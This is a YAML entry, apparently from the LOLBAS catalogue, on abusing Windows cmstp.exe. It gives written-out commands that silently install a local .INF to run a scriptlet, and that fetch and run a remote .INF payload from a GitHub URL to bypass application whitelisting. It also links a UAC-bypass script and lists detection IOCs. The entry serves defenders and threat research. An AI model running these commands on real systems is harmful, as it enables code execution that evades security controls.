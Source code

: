 ```yaml
---
name: Cmstp.exe
description: Installs or removes a Connection Manager service profile.
functions:
  execute:
    - description: Silently installs a specially formatted local .INF without creating a desktop icon. The .INF file contains a UnRegisterOCXSection section which executes a .SCT file using scrobj.dll.
      code: cmstp.exe /ni /s c:\cmstp\CorpVPN.inf
      mitreid: T1191
      mitrelink: https://attack.mitre.org/wiki/Technique/T1191
      operatingsystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
      privileges: User
      usecase: Execute code hidden within an inf file. Download and run scriptlets from internet.
  awl bypass:
    - description: Silently installs a specially formatted remote .INF without creating a desktop icon. The .INF file contains a UnRegisterOCXSection section which executes a .SCT file using scrobj.dll.
      code: cmstp.exe /ni /s https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSBinaries/Payload/Cmstp.inf
      mitreid: T1191
      mitrelink: https://attack.mitre.org/wiki/Technique/T1191
      operatingsystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
      privileges: User
      usecase: Execute code hidden within an inf file. Execute code directly from Internet.
resources:
    - resource: https://twitter.com/NickTyrer/status/958450014111633408
    - resource: https://gist.github.com/NickTyrer/bbd10d20a5bb78f64a9d13f399ea0f80
    - resource: https://gist.github.com/api0cradle/cf36fd40fa991c3a6f7755d1810cc61e
    - resource: https://oddvar.moe/2017/08/15/research-on-cmstp-exe/
    - resource: https://gist.githubusercontent.com/tylerapplebaum/ae8cb38ed8314518d95b2e32a6f0d3f1/raw/3127ba7453a6f6d294cd422386cae1a5a2791d71/UACBypassCMSTP.ps1
    - resource: https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/cmstp
fullpath:
    - path: C:\Windows\System32\cmstp.exe
    - path: C:\Windows\SysWOW64\cmstp.exe
detection:
  - IOC: Execution of cmstp.exe should not be normal unless VPN is in use
  - IOC: Cmstp.exe communication towards internet and getting files
acknowledgement:
  - Person: Oddvar Moe
    Handle: '@oddvarmoe'
  - Person: Nick Tyrer
    Handle: '@NickTyrer'
---
```

